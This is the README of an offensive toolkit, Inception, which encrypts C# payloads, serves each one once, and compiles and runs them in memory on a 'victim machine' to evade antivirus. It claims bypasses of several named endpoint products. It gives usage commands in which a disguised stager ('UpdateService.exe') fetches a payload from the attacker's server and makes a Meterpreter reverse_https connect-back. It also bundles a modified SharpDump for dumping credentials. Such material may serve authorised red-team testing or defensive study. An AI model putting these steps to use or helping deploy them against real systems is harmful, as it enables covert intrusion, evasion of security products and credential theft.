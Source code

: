 # Inception Framework

foo

Inception provides In-memory compilation and reflective loading of C# apps for AV evasion. Payloads are AES encrypted before transmission and are decrypted in memory. The payload server ensures that payloads can only be fetched a pre-determined number of times. Once decrypted, Roslyn is used to build the C# payload in memory, which is then executed using reflection.

Inception has been successful in bypassing a number of AV products. These tests were conducted on a fully patched, 64-bit Windows 10 host using Metasploit Meterpreter shellcode.

| Product        | Bypass Type           |
| ------------- |:-------------:|
| Cylance     | 32-bit shellcode injection | 
| McAfee Endpoint  Adaptive Threat Protection      | 64-bit shellcode injection | 
| Sophos Intercept X     | 64-bit shellcode injection | 
| Symantec Endpoint 14      | 64-bit shellcode injection | 
| ESET Internet Security     | 64-bit shellcode injection | 


[@two06](https://twitter.com/two06) is the primary author of this project.

Inception is released under the MIT license. A derivative of the [SharpDump](https://github.com/GhostPack/SharpDump/)  project  is included with Inception, its licence file can be found in the SharpDump.licence file.

## Requirements

Flask (pip install Flask)
Colorama (pip install Colorama)

## Overview

Inception is comprised of three main components:

- The payload builder (inception.py)
- A payload server (server.py)
- The "stager", a .NET executable which must be launched on the victim machine. 

Payloads are built using Inception.py. Currently, two types of payload are supported:

- Shellcode
- Custom

These payload types are described in more detail below. Inception.py will guide you through the payload creation process, depending on which menu options are selected. 

Payloads are served using a Flask app (server.py). This app either serves the encrypted, pre-generated payload, or issues a redirect to a specified URL. Payloads are, by default, use-once. If an attempt to retrieve a payload which has already been used is made, the server will issue a redirect. If a non-existent payload is requested, the server will issue a redirect. 

The stager is a .NET application which fetches, decodes, compiles and executes the payload. This application must be run on the victim machine. The stager is large (~10MB) when built. 

### Usage

Generate payloads using Inception.py

```
python Inception.py                                                                                                   
 _____ _   _ _____  ___________ _____ _____ _____ _   _ 
|_   _| \ | /  __ \|  ___| ___ \_   _|_   _|  _  | \ | |
  | | |  \| | /  \/| |__ | |_/ / | |   | | | | | |  \| |
  | | | . ` | |    |  __||  __/  | |   | | | | | | . ` |
 _| |_| |\  | \__/\| |___| |     | |  _| |_\ \_/ / |\  |
 \___/\_| \_/\____/\____/\_|     \_/  \___/ \___/\_| \_/

'You mean, a dream within a dream?'

[*] Initial setup complete!
Select payload type:
1. Shellcode
2. Custom
3. Help
0. Quit
 >>  1

```
when firt run, Inception will generate a directory structure in ~/.inception/ containing the payload database, raw payload directory and encrypted payload directory. 

To serve payloads, run Server.py as root (Server.py listens on port 80).

```
sudo python Server.py
 * Serving Flask app "Server" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```
Build the "RoslynLoad" .NET project, using visual studio. For 64-bit targets, the compiler MUST target x64. "Any CPU" can be used for 32-bit. 

Copy the generated EXE file to the victim machine and execute. 

```
UpdateService.exe "http://payload.server.URL/<ENCRYPTION KEY>"
```
The encryption key is displayed once a payload is generated using Inception.py

Note that a Metasploit listener must be running to receive the connect-back shell.

### Shellcode Payloads
Shellcode payloads use msfvenom to generate x86 or x64 Meterpreter shellcode. In this version, only reverse_https payloads are supported. 

x86 payloads use x86/shijata_ga_nai encoding. 
x64 payloads use x64/xor encoding. 

Generated shellcode is injected into a specified template file. Two examples have been included with this release:

- /Templates/Shellcode/ShellCode_Inject.txt
- /Templates/shellcode/ShellCode_Inject_76.txt

Template files contain a tag, which indicates where the generated shellcode should be placed:

```
byte[] shellcode = new byte[] {
     <SHELLCODE>
};

```

### Custom Payloads

Custom payloads allow arbitrary C# programs to be encrypted and loaded on the victim machine. No payload generation occurs for these templates; they must be complete C# programs. 

A modified version of [SharpDump](https://github.com/GhostPack/SharpDump) has been included with this release. 


### Creating Payloads

New payloads can be created using the following template. For Shellcode payloads, the SHELLCODE tag may be used to indicate where to place the generated shellcode.

```
Using System;
Using <other libraries>

namespace Inception
{
	class Program
	{
		//other methods as required
		
		public static void Run()
		{
			//Entrypoint code here
		}
	}
}
```
If non-standard libraries are required, the appropriate reference must be added to the Roslyn compilation code. The following examples shows the "System.IO.Compression.GZStream" reference (used by SharpDump).

```
MetadataReference[] references = new MetadataReference[]
            {
                MetadataReference.CreateFromFile(typeof(object).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(Enumerable).Assembly.Location),
                MetadataReference.CreateFromFile(typeof(System.IO.Compression.GZipStream).Assembly.Location)
            };
```

## Acknowledgments

Lots of this code was modified from StackOverflow and various blog posts. If you see code that you wrote, which is not credited, please let me know and I'll be happy to add acknowledgements. 

